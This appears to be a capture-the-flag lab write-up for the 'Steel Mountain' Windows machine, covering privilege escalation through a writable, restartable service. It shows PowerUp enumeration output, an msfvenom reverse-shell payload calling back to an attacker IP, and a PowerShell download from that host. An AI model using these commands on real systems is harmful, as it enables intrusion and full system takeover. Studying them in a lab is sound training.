



# Steel Mountain

Rejetto File Server 

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script here. Now you can use the upload command in Metasploit to upload the script.

> PowerUp Script - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

to upload script


* To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell *


Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

```powershell

PS > . .\PowerUp.ps1  
PS > Invoke-AllChecks

```


Output of Invoke-AllChecks has options

Check for service which has option **CanRestart** option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

#### Sample Output Below

```powershell

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                     : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

```

> Notice CanRestart set to True in above sample

### msfvenom

Now we can use msfvenom to generate a reverse shell as an Windows executable.

``` bash

> msfvenom -p windows/shell_reverse_tcp LHOST=10.4.43.77 LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
```









Run 

```python -m http.server 80```

andthen use this to transfer file

```powershell -c wget "http://10.4.43.77/winPEASx86.exe" -outfile "winPEASx86.exe"```

